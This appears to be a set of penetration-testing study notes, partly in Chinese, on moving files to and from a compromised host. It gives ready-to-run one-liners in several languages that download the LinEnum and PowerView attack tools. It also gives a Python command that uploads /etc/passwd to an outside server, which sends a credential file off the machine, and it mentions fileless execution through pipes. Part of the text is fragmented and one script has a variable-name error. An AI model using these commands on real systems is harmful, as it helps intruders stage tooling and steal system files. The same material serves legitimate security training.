 - 同样可用于Windows/Linux均可
- 同样可以将下载内容发送到管道，实现无文件攻击
- http(s)的uploadserver没法验
# Python
For Python2.7
```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
For Python3
```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
Upload:
```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})' #Connect to Uploadserver

# To use the requests function, we need to import the module first.
import requests 
# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"
# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")
# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```
# PHP
主要使用了PHP的`file_get_contents()` 和 `file_put_contents()`分别用于下载与保存。`fopen()`作替代
```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);' #fopen()
```
# Ruby
```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
# Perl
```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
# JavaScript
使用创建的Js脚本文件进行下载，`wget.js`
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
Usage:
```powershell
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
# VBScript
跟Jscript一样，使用CScript.exe(powershell&cmd)运行
```bash
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
Usage:
```bash
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```